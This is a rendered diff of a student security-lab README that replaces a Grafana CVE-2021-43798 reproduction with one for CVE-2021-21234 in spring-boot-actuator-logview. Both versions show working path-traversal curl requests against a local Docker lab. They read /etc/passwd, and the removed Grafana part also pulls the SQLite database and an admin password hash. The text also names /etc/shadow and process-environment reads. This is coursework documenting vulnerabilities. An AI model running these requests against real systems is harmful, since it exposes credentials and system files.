

Before and after one commit to Jiahe114514/hdu-is-lab1-secure-api, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; pictures changed too: docs/screenshots/05-cve-repro.png; blank space fills up the shorter version.

Commit message:
Switch CVE part to CVE-2021-21234 (spring-boot-actuator-logview): custom vulnerable Spring Boot lab, reproduction and fix evidence

````diff
--- a/README.md
+++ b/README.md
@@ -240,53 +243,61 @@ were upgraded (Flask 3.0.3 → 3.1.3, PyJWT 2.10.1 → 2.15.1) and one dependenc
 
 ---
 
-## 8. CVE analysis — CVE-2021-43798 (Grafana path traversal)
+## 8. CVE analysis — CVE-2021-21234 (spring-boot-actuator-logview path traversal)
 
 | Field | Value |
 |---|---|
-| CVE | **CVE-2021-43798** |
-| Product | Grafana 8.0.0-beta1 … 8.3.0 (fixed in 8.0.7 / 8.1.8 / 8.2.7 / 8.3.1) |
-| Class | CWE-22 Path Traversal → arbitrary file read (unauthenticated) |
-| Impact | Confidentiality: read any file the Grafana process can read — config, secrets, the SQLite database with password hashes |
-| CVSS v3.1 | 7.5 High (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`) |
-| Environment | Vulhub `grafana/CVE-2021-43798`, image `grafana/grafana:8.2.6` |
+| CVE | **CVE-2021-21234** |
+| Product | `eu.hinsch:spring-boot-actuator-logview` < 0.2.13 (fixed in 0.2.13) |
+| Class | CWE-22 Path Traversal → arbitrary file read (unauthenticated in this deployment) |
+| Impact | Confidentiality: any file readable by the application process — `/etc/passwd`, `/etc/shadow`, process environment, application configuration with credentials |
+| CVSS v3.1 | 7.7 High (`AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`) |
+| Environment | Custom Spring Boot 1.5.22 demo application; library 0.2.12 (vulnerable) vs 0.2.13 (patched); Java 8; Docker Compose; host port 8081 |
+
+Vulhub has no ready-made scenario for this CVE, so the environment was built from the
+vulnerable library itself: a minimal Spring Boot 1.5 application that exposes the
+`/log` actuator endpoint with `logging.path=/var/log/app`, packaged with
+`spring-boot-actuator-logview:0.2.12`.
 
 ### 8.1 Vulnerable environment
 
 ```bash
-docker compose up -d                      # cve/grafana-CVE-2021-43798/docker-compose.yml
-docker compose ps                         # grafana/grafana:8.2.6, 0.0.0.0:3000->3000/tcp
+cd cve/spring-CVE-2021-21234
+mvn -B package -DskipTests                 # builds the fat jar with logview 0.2.12
+docker compose build && docker compose up -d
+docker compose ps                          # lab1-logview-vuln, 8081->8080
 ```
 
 ### 8.2 Reproduction
 
-The plugin asset route `/public/plugins/:pluginId/*` is public by design (assets must
-load before login). Supplying `../` sequences in the wildcard segment escapes the plugin
-directory. `curl --path-as-is` is required, otherwise the client normalises the path
-before sending it.
+The endpoint exposes two request parameters: `filename` (which file to show) and `base`
+(which sub-directory of the log root to browse). Supplying a traversal sequence in
+`base` escapes the log directory. `curl --path-as-is` keeps the sequence intact on the
+client side.
 
 ```bash
-curl -s --path-as-is -i \
-  "http://127.0.0.1:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd"
+curl -s -i --path-as-is \
+  "http://127.0.0.1:8081/log/view?filename=passwd&base=../../../../etc"
 ```
 
-**Result — `HTTP/1.1 200 OK`, the file content is returned:**
+**Result — `HTTP/1.1 200`, the file content is returned:**
 
 ```
-root:x:0:0:root:/root:/bin/ash
-bin:x:1:1:bin:/bin:/sbin/nologin
-daemon:x:2:2:daemon:/sbin:/sbin/nologin
+HTTP/1.1 200
+Content-Type: text/plain
+Content-Length: 888
+
+root:x:0:0:root:/root:/bin/bash
+daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
+bin:x:2:2:bin:/bin:/usr/sbin/nologin
 ...
 ```
 
-Beyond `/etc/passwd`, the same primitive downloads Grafana's SQLite database:
-
-```bash
-curl -s --path-as-is -o grafana.db \
-  "http://127.0.0.1:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db"
-sqlite3 grafana.db "SELECT login, password, salt FROM user;"
-admin|8fbb4c7c8f2f906bebebf128bbf1324bf7fd312d...|zBxwBrIuAK
-```
+`filename` itself is clean (`passwd`), which is exactly why the library's own `..` check
+does not fire. The same request shape reads `/etc/shadow` and the process environment
+(`filename=environ&base=../../../../proc/self`), and `GET /log/` still lists the log
+directory normally — the endpoint works as designed, just not within its intended
+boundary.
 
 ![CVE reproduction](docs/screenshots/05-cve-repro.png)
 
````
Also changed, not shown: other parts of README.md (+92 -51 lines), docs/screenshots/04-ci-actions.png (added), docs/screenshots/06-cve-fixed.png, 16 other files.
